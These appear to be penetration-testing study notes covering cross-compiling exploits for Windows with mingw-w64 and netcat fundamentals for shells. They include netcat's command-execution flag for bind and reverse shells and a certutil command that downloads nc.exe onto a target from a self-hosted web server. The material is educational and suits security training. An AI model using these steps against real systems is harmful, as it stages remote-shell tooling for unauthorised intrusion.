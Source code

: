 ### Cross-Compiling Exploits ###

#### Cross-Compiling ####
+ Exploit code will be developed in C/C++/C#
	+ So it will need to be compiled into a PE (Portable Executable) or binary
+ Cross-Compiling is the process of compiling code for a platform other than the one performing the compilation
+ <mark style="background: #FF5582A6;">Mingw-w64</mark> 
	+ Used to compile software for Windows PE applications 
	+ Install with `sudo apt-get install mingw-w64` 
	+ Can now do: `i686-w64-mingw32-gcc test.c -o test` 
	+ Adding `-lw2_32` will specify for 32 bit systems
+ <mark style="background: #BBFABBA6;">Githubs exploitdb-bin-sploits</mark>
	+ Has precompiled exploits 


## Shells ##

### Netcat Fundamentals ###

#### Netcat ####
+ Aka <mark style="background: #FFF3A3A6;">TCP/IP Swiss Army Knife</mark>, a networking utility used to read and write data to network connections using TCP or UDP
+ Netcat is available for both NIX and Windows OS's, consequently making it extremely useful for cross-platform engagements
+ Netcat utilizes a client-server communication architecture with two modes:
	+ Client mode - Netcat can be used in client mode to connect to any TCP/UDP port as well as a Netcat listener (server)
	+ Server mode - Netcat can be used to listen for connections from clients on a specific port
+ Netcat can be used by penetration testers to perform the following functionality:
	+ Banner Grabbing
	+ Port Scanning 
	+ Transferring Files
	+ Bind/Reverse Shells 

#### Netcat Common Flags ####
+ `nc --help`
	+ Shows all the documentation, or can use the man pages 
+ `-v`
	+ Give additional information on actions 
+ `-u`
	+ Specifies UDP, be default it will do TCP
+ `-l` 
	+ Used to specify listener 
+ `-n`
	+ Will not resolve hostnames via DNS
+ `-e`
	+ Will execute a specific command 

#### Connect to ports ####
+ Output of the connection can be a service banner (banner grabbing)
+ `nc -nv <IP> <PORT>`
	+ So DNS resolve is disabled and will give more information (like if it connected)
	+ Could not connect do to filtering or a firewall as well 
+ Can transfer netcat to a windows machine
	+ The binary is under `/usr/share/windows-binaries/nc.exe`
	+ Can host a web server holding the executable using `python -m SimpleHTTPServer 80` 
		+ Will host everything in the current directory
	+ Will now navigate to that IP in a browser, or using the command prompt `certutil -urlcache -f http://<IP>/nc.exe nc.exe` 
